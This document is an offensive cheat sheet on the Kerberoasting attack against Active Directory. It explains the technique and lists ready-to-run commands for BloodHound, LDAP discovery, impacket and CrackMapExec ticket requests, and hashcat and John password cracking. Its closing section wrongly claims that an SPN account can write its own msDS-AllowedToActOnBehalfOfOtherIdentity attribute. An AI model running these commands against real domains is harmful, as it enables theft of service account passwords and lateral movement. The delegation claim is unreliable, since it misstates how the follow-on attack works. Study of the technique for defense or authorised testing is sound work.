

**Kerberoasting** — request a Service Ticket (TGS) for any account that has an SPN set, then crack the encrypted part of the ticket offline to recover the account's cleartext password. Works from any authenticated domain user.

## How it works

- A Service Ticket can be requested for any domain account that has an SPN set. You only need valid domain credentials to pass the initial Kerberos pre-authentication.
- Computer accounts have default SPNs and are technically "Kerberoastable", but their passwords are 128 characters long, so cracking them in a reasonable time is impossible.
- So target only **user accounts** configured with an SPN, in the hope the password is weak enough to crack.
- The attack hits the **second step** of the Kerberos exchange - TGS_REQ + TGS_REP:



## Discovery

Enumerate AD user accounts that have at least one SPN.

**Method 1: BloodHound** - built-in queries (Analysis tab):
- `List all Kerberoastable Accounts`
- `Find Kerberoastable Members of High Value Groups`
- `Find Kerberoastable Users with most privileges`

**Method 2: LDAP query**

```

(&(objectClass=user)(servicePrincipalName=*)(!(cn=krbtgt))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))

```

## Exploitation

### Request a Service Ticket

**Method 1:** impacket

```bash

GetUserSPNs.py -request -dc-ip DC_IP 'DOMAIN/USER_NAME:USER_PASS'

```

**Method 2:** CrackMapExec

```bash

cme ldap DC_IP -u 'USER_NAME' -p 'USER_PASS' --kerberoasting OUT_FILE

```

### Cracking

`IN_FILE` is a file of Service Ticket "hashes", one per line.

**Method 1:** Hashcat

```bash

hashcat -m 13100 IN_FILE WORDLIST

```

**Method 2:** John

```bash

john --wordlist=WORDLIST IN_FILE

```

## Next

An account with an SPN can write its own `msDS-AllowedToActOnBehalfOfOtherIdentity`, so a cracked SPN account can be used to run an [RBCD attack](../Delegation%20Attacks/RBCD%20Attack.md) - useful when you cannot create a new machine account (see [Computer Account Creation](../Reconnaissance/Computer%20Account%20Creation%20%28MAQ%29.md)).

## References

- impacket - https://github.com/fortra/impacket
- CrackMapExec - https://github.com/byt3bl33d3r/CrackMapExec
- Hashcat example hashes - https://hashcat.net/wiki/doku.php?id=example_hashes
- HackTricks - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
